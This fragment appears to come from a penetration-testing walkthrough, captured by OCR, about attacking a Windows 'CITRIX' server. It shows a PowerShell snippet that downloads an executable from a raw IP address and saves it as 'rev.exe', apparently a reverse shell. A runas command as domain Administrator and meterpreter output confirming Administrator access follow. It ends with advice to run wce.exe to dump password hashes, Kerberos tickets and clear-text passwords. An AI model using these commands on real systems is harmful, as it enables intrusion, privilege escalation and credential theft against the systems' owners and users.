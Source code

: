 ![](media/b4512da0217672becf73dbc4bc5e8198.png)

\$storageDir = \$pwd

\$webclient = New-Object System.Net.WebClient

\$url = "http://208.68.234.101/daaa118.exe"

\$file = "rev.exe"

\$webclient.DownloadFile(\$url,\$file)

runas /user:CITRIX\\Administrator /sa "notepad.exe"

meterpreter \> getuid

Server username: CITRIX\\Administrator

on a high value server, one of most useful tools to run is Windows Credential
Editor (wce.exe).

This tool will dump hashes, Kerberos tickets, and clear-text passwords belonging
to existing Windows logon sessions on the server.

the wce.exe tool requires administrative privileges to run.
